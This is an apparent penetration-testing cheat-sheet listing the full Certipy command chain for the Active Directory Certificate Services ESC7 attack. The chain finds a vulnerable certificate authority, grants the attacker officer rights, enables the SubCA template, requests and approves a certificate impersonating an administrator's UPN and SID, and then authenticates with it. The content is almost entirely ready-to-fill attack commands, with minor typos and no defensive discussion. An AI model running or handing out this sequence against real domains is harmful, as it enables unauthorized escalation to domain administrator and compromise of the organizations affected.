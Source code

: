 # ADCS ESC7

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Addd Officer
```
certipy ca -u '<username>' -p '<password>' -ns 'NS_SERVER' -target '<CA_FQDN>' -ca 'CA_HOST' -add-officer '<SAME_USERNAME>'
```

## 3. Enable SubCA
```
certipy ca -u '<username>' -p '<password>' -ns 'NS_SERVER' -target '<CA_FQDN>' -ca 'CA_HOST' -enable-template SubCA'
```

## 4. Submit SubCA Template
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template SubCA -upn '<ADMIN_USER>@<DOMAIN>' -sid <ADMIN_SID>
```

## Approve Template Request
```
certipy ca -u '<username>' -p '<password>' -ns 'NS_SERVER' -target '<CA_FQDN>' -ca 'CA_HOST' -issue-request 1
```

## 6. Retrieve Request
```
certipy ca -u '<username>' -p '<password>' -ns 'NS_SERVER' -target '<CA_FQDN>' ca 'CA_HOST' -retrieve '1'
```

## 7. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
